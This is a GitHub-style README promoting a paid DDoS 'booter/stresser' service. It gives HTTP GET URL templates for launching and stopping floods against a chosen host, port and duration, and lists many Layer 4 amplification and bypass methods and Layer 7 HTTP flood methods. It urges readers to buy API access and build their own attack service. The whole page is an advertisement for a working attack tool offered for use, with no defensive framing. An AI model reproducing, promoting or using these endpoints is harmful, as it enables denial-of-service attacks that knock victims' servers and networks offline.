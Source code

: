 <div align=center>
# DDOS / Attack API
Working DDOS API For [IP Booter](https://nightmarestresser.net/) / [IP Stresser](https://nightmarestresser.net/) With Layer 4 & Layer 7 Functions Supporting Stopping & Sendind Of Up To 150 Concurrent Floods With A Simple HTTP GET Request, Working In 2023.

![karma](https://i.imgur.com/FerP3kP.png)

Introduction & API Documentation:

API is useful if you wish to implement it into your own software or create your own ip booter / ip stresser, allowing you to launch/stop attacks with a simple HTTP GET request, Only thing needed is for you to register and get a plan that includes API access to get your API KEY on [nightmarestresser.net](https://nightmarestresser.net/)


Send Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=[METHOD]&host=[HOST]&port=[PORT]&time=[TIME]


Stop Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=STOP&host=[HOST]&port=[PORT]&time=[TIME]


Layer 4 Methods
UDP-AMP, SSDP, TCP-AMP, TCP-OVH, TCPBYPASS, TCP-HANDSHAKE, TCP-REFLECT, UDP-BYPASS, UDPBYPASS, TCP-TLS, TCP-RAND, TCP-SYN, NTP, CLDAP, DNS, ARD, WSD, FIVEM, GAME-FIVEM, TCP-DEVICES, CHARGEN, GAME-ARK, GAME-MINECRAFT, TCP-DATA, TCP-ACK, TCP-RAW, TCP-TFO, TCPBYPASSV2, UDP-ABUSE, TCP-ECN, GAME-SOURCE, SOURCEOVH, TCP-IMP, ICMP-AMP, SNMP, DVR, GAME-SAMP	

Layer 7 Methods
ROSETTA, STORM-HTTP, STORM-CONNECT, STORM-BYPASS, HTTP-REQ	

![logo](https://dim.mcusercontent.com/cs/884fc8aa3c2d91b5cfb02efc2/images/49466a15-f998-d9d7-b9a9-c35f214db9f1.png?w=564&dpr=2)

